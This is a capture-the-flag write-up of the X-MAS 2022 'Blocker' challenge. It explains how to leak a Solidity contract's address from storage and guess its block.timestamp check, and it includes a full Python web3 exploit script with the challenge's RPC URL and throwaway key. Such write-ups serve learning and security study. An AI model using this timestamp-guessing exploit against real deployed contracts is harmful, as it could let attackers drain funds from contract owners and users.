




## Summary

Recently, I participated in the X-MAS 2022 CTF in my free time. There was an interesting blockchain related challenge. In this challenge, we were provided the source code of a vulnerable Solidity smart contract. The goal is to exploit the vulnerability and get the flag

The image below shows the source code of the contract



It is a straightforward contract which has two functions:

1. `_getPreviousTimestamp`: This function will return the timestamp of the block using block.timestamp
2. solve: This function will accept an integer as an input and compare it with block.timestamp

The goal is to be able to guess the block.timestamp accurately

Before we jump into the solution, it is important to mention that the value of block.timestamp is not a constant and it can be manipulated by the miner. This is why it is not suggested to use block.timestamp to generate random numbers in real world smart contracts since its value can be manipulated and guessed.

The value of block.timestamp in the Ethereum mainnet (prior to Merge) was usually within a range. It had to be greater than or equal to value of block.timestamp in parent block and it should be within a range. It can be represented mathematically as shown below.
```
block.timestamp <= now + X and is block.timestamp >= parent.timestamp
```
Here X is the range within which the block.timestamp would have to be

Refer for more details here: https://github.com/ethereum/wiki/blob/c02254611f218f43cbb07517ca8e5d00fd6d6d75/Block-Protocol-2.0.md

## Challenge

When we connect to challenge server, it deploys the vulnerable contract on a private instance of a blockchain and provides us the 4 options as shown in the image below.



Below is a brief description of these 4 options.

1. **uuid**: a unique identifier used to indicate our challenge instance
2. **rpc endpoint**: this is the private RPC URL used to connect to the private blockchain
3. **private key**: This is the private key of the account provided to us to interact with the blockchain. It is loaded with some balance to use for the gas fee
4. **setup contract**: this is the address of the deployer contract

There are two main steps to solve this challenge
- Leaking the vulnerable contract address
- Bruteforcing the block.timestamp

Now, we will discuss each step in detail.

## Leaking the vulnerable contract address

It is important to note that the setup contract address provided to us does not correspond to the vulnerable contract address. So, we still have to find the address of vulnerable contract.

My way of leaking vulnerable contract address was by reading the storage slot of the setup contract address. Since the setup contract deployed the vulnerable contract, the address of vulnerable contract would be stored in a storage slot of setup contract

```
vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])
```
If you want to understand why address is stored in the storage slot, you can fetch the bytecode of setup contract, decompile it and understand it.

## Bruteforcing the block.timestamp

The next step was to interact with the vulnerable contract, do transactions and guess the block.timestamp

The first thing I noticed was that each time we do a transaction, the value of block number incremented by 1 and the value of block.timestamp incremented by a random value.

Even though block.timestamp incremented by a random value, it was still within a range. Per my analysis, it was within a range of 100 seconds

So, to solve the challenge, I ran a loop for a maximum of 100 iterations. In each iteration, I would get the block.timestamp, increment it by 2 and send it in transaction. Then I would compare the block.timestamp after transaction with the previous value (incremented by 2). If the difference is 0, then it means we guessed it

Also, in the vulnerable contract source code, we can see that the value of state variable solved would be set to true if the challenge is solved. By checking for this value, we can confirm when the challenge is solved

Figure 3 below shows my script solving it:



Once we have solved it, we just need to connect to the challenge server, submit our uuid and setup contract address to get the flag.



Flag: X-MAS{beginooor}

## Solution code
```python
import web3
import time

print("Solution to Blocker challenge in X-MAS CTF 2022")
print("Sudeep Singh, Twitter @ SinghSoodeep")

rpc_url = "http://challs.htsp.ro:9001/ad8e2899-f227-4c48-83a1-17bf5d82809b"
w3 = web3.Web3(web3.Web3.HTTPProvider(rpc_url))
w3.isConnected()

setup_contract_address = "0x593EDc28F0Be694354BCe80c4b2DD991eE58E6Ca"
private_key = "0x4c93f3ae3b52d4ce27af51e8658b97e24a1f2eadb8a85cceaee0373cacca75dd"
print("Fetching account using the private key")

account = w3.eth.account.privateKeyToAccount(private_key)

print("Account address is: {}".format(account.address))

balance = w3.eth.getBalance(account.address)

abi = [{"inputs":[],"name":"current_timestamp","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"uint256","name":"_guess","type":"uint256"}],"name":"solve","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"solved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"}]

print("Leaking the vulnerable contract address")

vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])

print("vulnerable contract address at: {}".format(vuln_contract_address))

gas_price = w3.eth.gasPrice
gas_limit = 1000000

web3.eth.defaultAccount = account.address

contract = w3.eth.contract(abi=abi, address=vuln_contract_address)

print("time analysis!!")
print("Exploit the vulnerability by bruteforcing the block.timestamp")

for i in range(100):
    before_block = w3.eth.get_block_number()
    tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp'] + 2
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("BEFORE: block_number: {}, tstamp: {}".format(before_block, tstamp))
    print("BEFORE: solved: {}".format(_solved))
    tx_hash =  contract.functions.solve(tstamp).transact({"gasPrice": gas_price, "gas": gas_limit})
    after_block = w3.eth.get_block_number()
    after_tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp']
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("AFTER: block_number: {}, tstamp: {}".format(after_block, after_tstamp))
    print("AFTER: solved: {}".format(_solved))
    print("time diff: {}".format(after_tstamp - tstamp))
    print("*********************************")
    time.sleep(0.5)
    if _solved == True:
        print("solved!")
        break
```
